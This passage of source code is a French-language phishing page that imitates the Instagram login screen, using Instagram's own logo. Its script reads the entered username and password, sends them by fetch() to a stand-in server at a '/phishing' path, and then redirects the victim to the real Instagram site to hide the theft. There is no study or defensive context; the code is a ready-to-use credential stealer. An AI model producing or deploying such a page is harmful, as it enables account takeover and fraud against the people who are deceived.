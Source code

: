         }
        .separator span {
            background-color: #fff;
            padding: 0 10px;
            position: relative;
            top: -10px;
        }
        .forgot-password {
            text-align: center;
            margin-top: 20px;
            color: #00376b;
        }
        .forgot-password a {
            text-decoration: none;
            color: #00376b;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="logo">
            <img src="https://www.instagram.com/static/images/web/mobile_nav_type_logo.png/735145cfe0a4.png" alt="Instagram Logo">
        </div>
        <div class="input-field">
            <input type="text" id="username" placeholder="Nom d'utilisateur, adresse e-mail ou numéro de téléphone" required>
        </div>
        <div class="input-field">
            <input type="password" id="password" placeholder="Mot de passe" required>
        </div>
        <button class="login-btn" onclick="submitForm()">Se connecter</button>
        <div class="separator">
            <hr>
            <span>OU</span>
            <hr>
        </div>
        <div class="forgot-password">
            <a href="#">Mot de passe oublié ?</a>
        </div>
    </div>

    <script>
        function submitForm() {
            const username = document.getElementById('username').value;
            const password = document.getElementById('password').value;

            // Envoyer les données à votre serveur
            fetch('https://votre-serveur.com/phishing', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ username, password })
            })
            .then(response => response.json())
            .then(data => {
                console.log('Success:', data);
                // Rediriger vers la page d'accueil d'Instagram
                window.location.href = 'https://www.instagram.com/';
            })
            .catch((error) => {
                console.error('Error:', error);
            });
        }